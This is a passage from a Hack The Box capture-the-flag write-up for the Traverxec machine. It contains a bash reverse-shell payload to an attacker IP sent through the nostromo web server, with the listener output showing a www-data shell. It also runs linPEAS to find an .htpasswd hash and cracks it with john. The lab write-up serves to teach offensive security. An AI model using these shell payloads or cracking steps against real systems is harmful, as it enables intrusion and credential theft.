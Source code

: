 ```

echo
echo
bash -i >& /dev/tcp/10.10.14.24/8443 0>&1
```  
As we can see, we changed the url to bash instead of sh and the payload with a commond bash reverse tcp shell, after we send the request we get a shell as user www-data:
```
root@kali:~/Documents/HTB/Boxes/Traverxec# nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.165] 37074
bash: cannot set terminal process group (419): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$
```

## User
As we login as user www-data we can run run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS notice the following:  
```
╔══════════╣ Analyzing Htpasswd Files (limit 70)                                                                      
-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd                                                    
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/         
```
While doing other recon, let's start cracking this using john:  
```
[root@kali Traverxec ]$ john --wordlist=/usr/share/wordlists/rockyou.txt htpasswd.txt      
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)     
1g 0:00:00:32 DONE (2022-03-28 15:48) 0.03119g/s 329957p/s 329957c/s 329957C/s Noyoudo..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Unfortunately this password doesn't leads to anywhere since cannot be used for switch user.  
So, let's keep it for now and proceed with further investigations.  
As we may have noticed, this file is within ```/var/nostromo/conf/.htpasswd```, let's look in here if we can see other interesting things:  
```
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

```